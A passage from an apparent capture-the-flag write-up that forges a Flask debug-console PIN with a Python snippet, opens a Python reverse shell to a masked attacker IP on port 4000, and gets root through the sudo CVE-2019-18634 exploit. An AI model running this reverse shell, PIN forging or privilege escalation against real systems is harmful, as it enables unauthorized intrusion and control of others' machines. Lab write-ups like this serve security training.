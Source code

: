 ```python
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
        for group_size in 5, 4, 3:
                if len(num) % group_size == 0:
                        rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                                                  for x in range(0, len(num), group_size))
                        break
        else:
                rv = num

print(rv)
```

Running the script will generate the pin to enter console **245-971-816**

We are now able to run commands and get a reverse shell using following command

`import os,pty,socket;s=socket.socket();s.connect(("XXX.XXX.XXX.XXX",4000));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")`

Our flag is located at **/home/aas/.hiddenflag.txt**

## Super Mushroom

After getting the shell it's always good to check the system for any privesc paths. I used linpeas to get an overview about the system

Two things jumped directly at me
1. Sudo version 1.8.21p2
2. CVE-2021-4034

**CVE-2021-4034** wasn't exploitable during my enumeration phase so I would say it's a false positive.

Sudo V. 1.8.21p2 can be exploited using a known exploit **CVE-2019-18634** - [SUDO-CVE-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634)

I compiled the exploit on my host using the Makefile and transfered it to my target using pwncat-cs framework which handles my reverse shells and listeners

The flag is located at /root/flag.txt
```bash
\[\](remote)\[\] \[\]root@Leakage\[\]:\[\]/root\[\]$ cat /root/flag.txt
AKERVA{XkXow_SuX0_sXckXX}
```

## Little Secret

Last but not least the challenge that's not my usual business.

In **/root** there's a file called **secured_note.md** which seems to be encrypted by some kind of cipher.

